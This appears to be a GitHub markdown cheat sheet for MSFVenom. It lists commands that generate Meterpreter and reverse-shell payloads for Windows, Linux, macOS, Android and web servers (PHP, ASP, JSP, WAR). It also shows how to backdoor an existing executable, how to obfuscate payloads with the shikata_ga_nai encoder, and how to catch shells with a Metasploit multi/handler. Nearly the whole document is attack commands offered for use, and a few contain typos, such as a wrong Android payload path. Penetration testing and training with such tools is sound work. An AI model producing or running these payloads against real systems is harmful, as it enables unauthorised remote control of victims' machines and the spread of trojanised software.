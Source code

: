 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creting Binaries
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Creates a simple TCP Payload for Windows
- `msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Creates a simple HTTP Payload for Windows
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf	
  - Creates a simple TCP Shell for Linux
- `msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho`	
  - Creates a simple TCP Shell for Mac
- `msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk`	
  - Creats a simple TCP Payload for Android

## Web Payloads
Command	Info
- `msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php`
  - Creates a Simple TCP Shell for PHP
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp`
  - Creates a Simple TCP Shell for ASP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp`	
  - Creates a Simple TCP Shell for Javascript
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war`	
  - Creates a Simple TCP Shell for WAR

## Windows Payloads

- `msfvenom -l encoders`	
  - Lists all avalaible encoders
- `msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Binds an exe with a Payload (Backdoors an exe)
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe`	
  - Creates a simple TCP payload with shikata_ga_nai encoder
- `msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe`
  - Binds an exe with a Payload and encodes it

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```

